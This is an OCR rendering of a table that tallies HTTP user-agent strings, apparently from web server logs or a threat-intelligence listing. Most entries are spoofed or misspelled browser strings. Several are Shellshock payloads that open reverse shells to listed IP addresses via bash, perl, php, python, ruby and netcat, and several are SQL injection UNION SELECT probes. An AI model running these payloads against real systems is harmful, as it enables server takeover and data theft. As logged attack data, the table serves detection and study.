 ```
		 Mozilla/4.0 (compatible MSIE 5.0;Windows_98)	2
		 Mozilla/4.0 (compatibl; MSIE 7.0; Windows NT 6.0; Trident/4.0; SIMBAR={7DB0F6DE-8DE7-4841-9084-28FA914B0F2E}; SLCC1; .N	2
		 HttpBrowser/1.0	2
		 CholTBAgent	2
		 Mozilla/4.0 (compatible; MSIEE 7.0; Windows NT 5.1)	2
		 Mozilla/4.0 (compatible; MSIE 8.0; Windows_NT 5.1; Trident/4.0)	2
		 Mozilla/4.0 (compatible;MSIE 7.0;Windows NT 6.	2
		 Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) ApleWebKit/525.13 (KHTML, like Gecko) chrome/4.0.221.6 safari/525.13	2
		 Opera/8.81 (Windows-NT 6.1; U; en)	2
		 Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0)	2
		 Mozilla/5.0 Windows; U; Windows NT5.1; en-US; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30729)	2
		 Mozilla/4.0(compatible; MSIE 666.0; Windows NT 5.1	2
		 Mozilla/5.0 (compatible; MSIE 10.0; W1ndow NT 6.1; Trident/6.0)	2
		 Mozilla/5.0 (compatible; Goglebot/2.1; +http://www.google.com/bot.html)	2
		 Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2.3) gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30731	2
		 Mozilla/5.0 WinInet	2
		 Mozilla/5.0 (Windows NT 6.1; WOW62; rv:53.0) Gecko/20100101 Chrome /53.0	2
		 Mozilla/5.0 (Windows NT 10.0;Win64;x64)	2
		 Mozilla/5.0 (Windows NT 5.1 ; v.)	2
		 Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.133 Mobile Safari/535.19	1
		 () { :; }; /bin/bash -i >& /dev/tcp/31.254.228.4/48051 0>&1	1
		 () { :; }; /usr/bin/perl -e 'use Socket; 𝑖="83.0.8.119"; p=57432;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in( 𝑝,𝑖𝑛𝑒𝑡𝑎𝑡𝑜𝑛( i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'	1
		 () { :; }; /usr/bin/php -r '$sock=fsockopen("229.229.189.246",62570);exec("/bin/sh -i <&3 >&3 2>&3");'	1
		 () { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("150.45.133.97",54611));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'	1
		 () { :; }; /usr/bin/ruby -rsocket -e'f=TCPSocket.open("227.110.45.126",43870).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'	1
		 1' UNION SELECT '1','2','automatedscanning','1233627891','5'/*	1
		 1' UNION SELECT -1,'autosc','test','O:8:\"stdClass\":3:{s:3:\"mod\";s:15:\"resourcesmodule\";s:3:\"src\";s:20:\"@random41940ceb78dbb\";s:3:\"int\";s:0:\"\";}',7,0,0,0,0,0,0 /*	1
		 1' UNION SELECT 1,1409605378,1,1,1,1,1,1,1,1/*&blogId=1	1
		 1' UNION SELECT 1729540636,concat(0x61,0x76,0x64,0x73,0x73,0x63,0x61,0x6e,0x65,0x72, --	1
		 1' UNION/**/SELECT/**/1,2,434635502,4/*&blog=1	1
		 1' UNION/**/SELECT/**/994320606,1,1,1,1,1,1,1/*&blogId=1	1
		 Mozilla/5.0 (Linux; Android 4.4; Nexus 5 Build/_BuildID_) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/30.0.0.0 Mobile Safari/537.36	1
		 Mozilla/5.0 (Linux; Android 5.1.1; Nexus 5 Build/LMY48B; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.65 Mobile Safari/537.36	1
		 Mozilla/5.0 (Linux; U; Android 4.1.1; en-gb; Build/KLP) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Safari/534.30	1
		 Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/603.1.23 (KHTML, like Gecko) Version/10.0 Mobile/14E5239e Safari/602.1	1
		 Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) CriOS/56.0.2924.75 Mobile/14E5239e Safari/602.1	1
		 Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/600.7.12 (KHTML, like Gecko) Version/8.0.7 Safari/600.7.12	1
		 () { :; }; /bin/bash -c '/bin/nc 55535 220.132.33.81 -e /bin/bash'	1
```

